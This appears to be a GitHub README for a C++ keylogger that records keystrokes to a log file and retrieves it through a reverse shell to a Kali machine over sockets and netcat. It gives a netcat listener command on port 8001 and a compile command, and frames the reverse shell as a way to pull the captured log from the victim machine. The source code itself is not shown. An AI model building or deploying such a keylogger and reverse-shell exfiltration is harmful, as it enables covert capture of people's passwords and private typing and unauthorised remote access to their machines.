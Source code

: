 ## KEYLOGGER
---
### About

This keylogger uses Reverse Shell and Sockets to enable a connection with the kali machine. 
Reverse Shell is used in order to retrieve the log.txt which stores the keystroke rather than sending it via the email which reduces the privacy.
This is carried out using socket programming and connecting using netcat.

### Requirement
- C++17 or greater
- Linux System or Subsystem

### How to use

First Open your desired linux system(here kali) with netcat and run the command
```
nc -lnvp 8001
```

To compile the program:
```
g++ -o <executable name> main.cpp -lws2_32
```

After running, in the linux system enter any key to enter the reverse shell. The reverse shell is soley used to extract the log file.
